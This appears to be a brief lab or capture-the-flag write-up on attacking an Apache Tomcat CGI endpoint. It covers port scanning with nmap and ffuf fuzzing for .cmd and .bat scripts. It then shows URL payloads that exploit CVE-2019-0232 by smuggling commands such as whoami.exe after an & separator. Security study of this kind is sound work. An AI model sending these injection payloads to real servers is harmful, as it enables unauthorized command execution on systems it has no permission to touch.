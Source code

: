 ## Enumeration

```
nmap -p- -sC -Pn 10.129.204.227 --open
```

## Finding a CGI script

**Fuzzing Extensions - .CMD
```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

**Fuzzing Extentions - .BAT
```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```
- Discovered URL: http://10.129.204.227:8080/cgi/welcome.bat


## Exploitation
```http
http://10.129.204.227:8080/cgi/welcome.bat?&dir
http://10.129.204.227:8080/cgi/welcome.bat?&set
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```
- Per CVE-2019-0232, we can append our own commands through the use of the batch command separator &.
